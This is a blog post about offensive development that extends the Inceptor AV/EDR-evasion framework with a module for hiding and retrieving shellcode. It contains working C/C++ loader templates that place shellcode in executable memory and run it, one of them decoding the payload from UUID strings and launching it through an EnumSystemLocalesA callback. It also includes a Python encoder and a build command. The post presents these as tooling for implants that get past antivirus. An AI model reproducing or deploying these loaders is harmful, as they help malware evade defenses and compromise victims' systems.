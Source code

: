 ```yaml
---
title: "Offensive Development - Implementing Shellcode Retrieval"
date: 2021-11-19 01:55:55 +0100
categories: [Offensive Development, Windows]
tags: [shellcode, embedding, retrieval]     # TAG names should always be lowercase
---
```


Recently, I developed a PoC AV/EDR Framework, called [Inceptor](https://github.com/klezVirus/inceptor.git). More information about the tool can
be found in the repository itself, and in the accompanying [blog post](../AV-Evasion-CodeExecNewDotnet/).

What is important to know, is that Inceptor is a tool which can help to automate the process of developing 
implants which can automatically bypass common AV and EDR solutions. By default, Inceptor embeds
shellcode or PE (transformed into shellcode) within wrappers (or "templates"), which are designed to
load and execute them. Templates are editable, but till now the shellcode was always embedded very crudely 
within the template, in the form of a byte array.

A very easy example is provided below:

```cpp
// Shellcode embedded in the template
const unsigned char raw[] = "####SHELLCODE####";
int length = sizeof(raw);
// Allocate RWX space for the shellcode
VOID* mem = VirtualAlloc(NULL, length, 0x00002000 | 0x00001000, PAGE_EXECUTE_READWRITE);
bool success = false;
// Copy shellcode in memory 
success = memcpy(mem, raw, length);
// Function pointer to the start of the shellcode
int (*my_main)() = (int(*)()) ((ULONGLONG)mem);
// Execution
my_main();
```

This example serves just as a PoC. As such, we are not considering issues as having a RWX region of memory, 
lack of error handling, direct use of Windows APIs (which can be hooked), etc.

The issue we are interested in, for the scope of this post, is having the shellcode embedded as a byte array. 
Indeed, having large binary blob can be suspicious if the program is statically reversed. In some cases, as
with C# payloads, this can be really easily spotted, even with strong obfuscation in place.

Moreover, as observable in other researches, like [Lazarus-Shellcode-Execution](https://research.nccgroup.com/2021/01/23/rift-analysing-a-lazarus-shellcode-execution-method/) by 
NCC Group, some forms of injection may use a special format, requiring the binary blob to further transformed.

However, so far, the shellcode format couldn't really be modified at all in Inceptor, which really limited 
the possibility of having other formats or retrieval mechanisms.

## The Shellcode Retrieval Module

In Inceptor, a user could already add or extend the tool functionality by adding or modifying a template or
a module. A module can be thought as a pluggable set of functionalities which can be added to a template.
Modules themselves are based on templates, which can be adapted, changed, or added, to provide the maximum 
level of customisation.

Based on this model, I thought it could be nice and easy to implement the shellcode embedding process as
a module itself. This is how it works:

![image](imgs/blog/003AVEvasion/srm.png)

As observable from the image, the logic is pretty simple. The `IShellcodeRetrievalModule` and 
`ShellcodeRetrievalModule` abstract classes act as the main interfaces for shellcode retrieval mechanisms. 
Actually, the `ShellcodeRetrievalModule` abstract class provides a genera logic for all modules which just performs operations
on the shellcode, while the `IShellcodeRetrievalModule` abstract class provides an empty interface for all 
Shellcode retrieval mechanisms which are too specialised to be generalised.

Important to note that with this logic, at least a shellcode retrieval module needs to be loaded. If no
SRM are detected, Inceptor will indeed load the `BlobShellcodeRetrievalModule` by default.

Every SRM module, by itself, wraps a function which returns the shellcode which needs to be loaded in memory.
The function is compiled with the shellcode (or other mechanism) within a `.lib` file, along with a 
header file with the function declaration. The Library is then linked to the final payload. 
The function symbol is known at Linking time thanks to header previously generated.

## Implementing UUID Shellcode Execute

Implemented the general SRM, it is possible to implement a specific shellcode retrieval mechanism.
The first test case was indeed the UUID-ShellExecute. This kind of mechanism is ideal because it doesn't 
change the general concept of shellcode embedding (the shellcode is indeed still embedded in the payload)
but changes its format from a bytearray to a sequence of UUID strings.

As `ShellcodeRetrievalModule` already implements the logic behind the header creation and library compilation,
the only thing needed to implement is the shellcode formatting. To do that, all ShellcodeRetrievalModule 
implementations must implement the `craft()` method.

We can borrow and adapt one of the Python implementations available on internet, such as the one by [Boku7](https://github.com/boku7/Ninja_UUID_Runner/blob/main/bin2uuids.py) 
or the one by [ChoiSG](https://github.com/ChoiSG/UuidShellcodeExec/blob/main/shellcodeToUUID.py).

The final implementation of craft would be the following:
```python
def craft(self, shellcode, language) -> (str, list, str):
    Console.warn_line("[WARNING] This module is only supported by 'uuid' based templates")
    Console.warn_line("[WARNING] This module is not compatible with LD encoders")
    data = shellcode
    if isinstance(shellcode, str):
        data = unhexlify(shellcode)
    if len(data) % 16 != 0:
        padding = b"\x90" * (16 - (len(data) % 16))
        data += padding
    uuids = []
    for i in range(0, len(data), 16):
        uuid_string = str(uuid.UUID(bytes_le=data[i:i + 16]))
        uuids.append(f'"{uuid_string}"')
    self.uuids = ",\n".join(uuids)
    self.shellcode_length = len(uuids)
    if language == Language.POWERSHELL:
        raise ModuleNotCompatibleException

    if language == Language.CSHARP:
        return "string[]", [], self.uuids
    elif language == Language.CPP:
        return "char**", [], self.uuids
```

The return tuple would be the triple `(return_type, [list of arguments], formatted_shellcode)`. Each of
the unpacked values would be then used to modify a function template similar to the following:

```
####RETURN_TYPE#### myFunction(####ARGS####){
    char* uuids[] = {
        ####SHELLLCODE####
    }
    ...
}
```

Although arguments substitution is mainly still a work in progress and far from being stable, this
substitution pattern has proven to offer good customization / stability tradeoff. 

Finally, it's necessary to implement a template supporting UUID-Shellcode Execution. For this task,
we can easily borrow an existing implementation, as the C++ by [NCC Group](https://gist.github.com/rxwx/c5e0e5bba8c272eb6daa587115ae0014/)
and the C# one by [ChoiSG](https://github.com/ChoiSG/UuidShellcodeExec/blob/main/USEConsole/Program.cs), which is using D/Invoke. 

The final template would be similar to the following>

```c
#include <Windows.h>
#include <Rpc.h>
#include <iostream>
//####USING####

//####DEFINE####

#pragma comment(lib, "Rpcrt4.lib")


int main()
{

    //####DELAY####
    //####SELF_DELETE####
    //####UNHOOK####
    //####ANTIDEBUG####

    char** uuids = ####SHELLCODE####;
    int elems = ####SHELLCODE_LENGTH####;

    VOID* ha = VirtualAlloc(NULL, 0x100000, 0x00002000 | 0x00001000, PAGE_EXECUTE_READWRITE);
    DWORD_PTR hptr = (DWORD_PTR)ha;

    for (int i = 0; i < elems; i++) {
        printf("[*] Allocating %d of %d uuids\n", i + 1, elems);
        printf("%s\n", *(uuids+i));
        RPC_CSTR rcp_cstr = (RPC_CSTR)*(uuids+i);
        RPC_STATUS status = UuidFromStringA((RPC_CSTR)rcp_cstr, (UUID*)hptr);
        if (status != RPC_S_OK) {
            printf("[-] Something went wrong\n");
            CloseHandle(ha);
            return -1;
        }
         hptr += 16;
    }

    EnumSystemLocalesA((LOCALE_ENUMPROCA)ha, 0);
    CloseHandle(ha);
    return 0;
}
```

And finally testing it using the following command line:

```
python inceptor.py native tests\calc64.raw -o uuid-shellexec.exe -m uuid_shellcode_retrieval
```

And it worked! 

![Calc](imgs/blog/003AVEvasion/calc.png)

Of course, this is just the start of the game. Now, that is possible to implement arbitrary methods to
retrieve the shellcode, it's a matter of time to come up with new, creative ways to hide and retrieve 
our code. In another post, I'll cover how it's possible to leverage the SRM interface to load payloads 
embedded as a local resource or ICON file (technique borrowed from Sektor7). 

## References

* [RIFT: Analysing a Lazarus Shellcode Execution Method](https://research.nccgroup.com/2021/01/23/rift-analysing-a-lazarus-shellcode-execution-method/)

